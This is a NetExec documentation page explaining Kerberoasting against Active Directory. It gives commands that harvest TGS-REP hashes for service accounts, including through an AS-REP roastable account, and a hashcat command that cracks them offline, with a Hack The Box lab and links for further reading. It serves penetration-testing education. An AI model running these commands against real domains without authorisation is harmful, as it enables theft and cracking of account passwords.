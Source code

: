 ```yaml
---
description: Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting
---
```


# Kerberoasting

You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

{% hint style="warning" %}
To perfom this attack, you need an account on the domain, or an AS-REP roastable account
{% endhint %}

```bash
nxc ldap $TARGET -u $USER -p $PASSWORD --kerberoasting output.txt
```
# Kerberoasting via AS-REP Roasting

> You can also perform Kerberoasting by leveraging an AS-REP roastable account that does not require pre-authentication. This is possible by combining `--no-preauth-targets` and `--kerberoasting`.

```bash
nxc ldap $TARGET -u $USER -p $PASSWORD --no-preauth-targets kerberoastable.list --kerberoasting output.txt
```

* `-u`: AS-REP roastable user (no pre-auth required).
* `--no-preauth-targets`: Single user or file containing list of users to target with Kerberoasting.

### Cracking with hashcat

```bash
hashcat -m13100 output.txt wordlist.txt
```

### Example

Active machine is a good example to test **Kerberoasting** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/148" %}

### Useful ressources:

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://en.hackndo.com/kerberoasting/" %}

{% embed url="https://www.semperis.com/blog/new-attack-paths-as-requested-sts/" %}
